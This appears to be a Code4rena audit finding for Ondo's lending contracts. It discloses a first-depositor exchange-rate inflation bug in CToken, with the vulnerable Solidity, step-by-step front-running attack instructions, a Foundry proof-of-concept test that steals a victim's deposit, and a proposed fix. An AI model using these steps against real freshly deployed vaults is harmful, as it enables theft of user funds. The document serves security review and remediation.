 # Original link
https://github.com/code-423n4/2023-01-ondo-findings/issues/247

# First Deposit Bug

The CToken is a yield bearing asset which is minted when any user deposits some units of
`underlying` tokens. The amount of CTokens minted to a user is calculated based upon
the amount of `underlying` tokens user is depositing.

As per the implementation of CToken contract, there exist two cases for CToken amount calculation:

1. First deposit - when `CToken.totalSupply()` is `0`.
2. All subsequent deposits.

Here is the actual CToken code (extra code and comments clipped for better reading):

```solidity
function exchangeRateStoredInternal() internal view virtual returns (uint) {
    uint _totalSupply = totalSupply;
    if (_totalSupply == 0) {
      return initialExchangeRateMantissa;
    } else {
      uint totalCash = getCashPrior();
      uint cashPlusBorrowsMinusReserves = totalCash +
        totalBorrows -
        totalReserves;
      uint exchangeRate = (cashPlusBorrowsMinusReserves * expScale) /
        _totalSupply;

      return exchangeRate;
    }
}

function mintFresh(address minter, uint mintAmount) internal {
    // ...
    Exp memory exchangeRate = Exp({mantissa: exchangeRateStoredInternal()});

    uint actualMintAmount = doTransferIn(minter, mintAmount);

    uint mintTokens = div_(actualMintAmount, exchangeRate);

    totalSupply = totalSupply + mintTokens;
    accountTokens[minter] = accountTokens[minter] + mintTokens;
}

```

## The Bug

The above implementation contains a critical bug which can be exploited to steal funds of
initial depositors of a freshly deployed CToken contract.

As the exchange rate is dependent upon the ratio of CToken's totalSupply and underlying token
balance of CToken contract, the attacker can craft transactions to manipulate the exchange rate.

Steps to attack:

1. Once the CToken has been deployed and added to the lending protocol, the attacker mints the 
smallest possible amount of CTokens.

2. Then the attacker does a plain `underlying` token transfer to the CToken contract, artificially inflating the `underlying.balanceOf(CToken)` value.

    Due to the above steps, during the next legitimate user deposit, the `mintTokens` value for
the user will become less than `1` and essentially be rounded down to `0` by Solidity.
Hence the user gets `0` CTokens against his deposit and the CToken's entire supply is held by the Attacker.

3. The Attacker can then simply `reedem` his CToken balance for the entire `underlying` token balance of the
CToken contract.

The same steps can be performed again to steal the next user's deposit.

It should be noted that the attack can happen in two ways:

- The attacker can simply execute the Step 1 and 2 as soon as the CToken gets added to the lending protocol.
- The attacker watches the pending transactions of the network and frontruns the user's deposit transaction by executing Step 1 and 2 and then backruns it with Step 3. 

## Impact
A sophisticated attack can impact all user deposits until the lending protocols owners and users are notified and contracts are paused. Since this attack is a replicable attack it can be performed continuously to steal the deposits of all depositors that try to deposit into the CToken contract.

The loss amount will be the sum of all deposits done by users into the CToken multiplied by the underlying token's price.

Suppose there are `10` users and each of them tries to deposit `1,000,000` underlying tokens into the CToken contract. Price of underlying token is `$1`.

`Total loss (in $) = $10,000,000`


## Proof of Concept

New test case was added to `forge-tests/lending/fToken/fDAI.t.sol`

```solidity
function test_bug_firstMintIssue() public {
    address attacker = alice;

    seedUserDAI(attacker, 2_000_000e18);
    seedUserDAI(bob, 1_000_000e18);
    assertEq(fDAI.exchangeRateStored(), 2e26);
    assertEq(fDAI.totalSupply(), 0);
    assertEq(fDAI.balanceOf(attacker), 0);

    vm.prank(attacker);
    DAI.approve(address(fDAI), type(uint256).max);
    vm.prank(attacker);
    fDAI.mint(2e8);
    assertEq(fDAI.balanceOf(attacker), 1);
    assertEq(fDAI.totalSupply(), 1);

    vm.prank(bob);
    DAI.approve(address(fDAI), type(uint256).max);

    // Front-running
    vm.prank(attacker);
    DAI.transfer(address(fDAI), 1_000_000e18);
    assertEq(fDAI.getCash(), 1_000_000e18 + 2e8);

    vm.prank(bob);
    fDAI.mint(1_000_000e18);
    assertEq(fDAI.balanceOf(bob), 0);
    assertEq(fDAI.totalSupply(), 1);

    vm.prank(attacker);
    fDAI.redeem(1);
    assertEq(DAI.balanceOf(attacker), 3_000_000e18);
    assertEq(fDAI.totalSupply(), 0);
}

```


## The Fix
The fix to prevent this issue would be to enforce a minimum deposit that cannot be withdrawn. This can be done by minting small amount of CToken units to `0x00` address on the first deposit.

```solidity
function mintFresh(address minter, uint mintAmount) internal {
    // ...
    Exp memory exchangeRate = Exp({mantissa: exchangeRateStoredInternal()});

    uint actualMintAmount = doTransferIn(minter, mintAmount);

    uint mintTokens = div_(actualMintAmount, exchangeRate);

    /// THE FIX
    if (totalSupply == 0) {
        totalSupply = 1000;
        accountTokens[address(0)] = 1000;
        mintTokens -= 1000;
    }

    totalSupply = totalSupply + mintTokens;
    accountTokens[minter] = accountTokens[minter] + mintTokens;
    // ...
}
```

Instead of a fixed `1000` value an admin controlled parameterized value can also be used to control the burn amount on a per CToken basis.

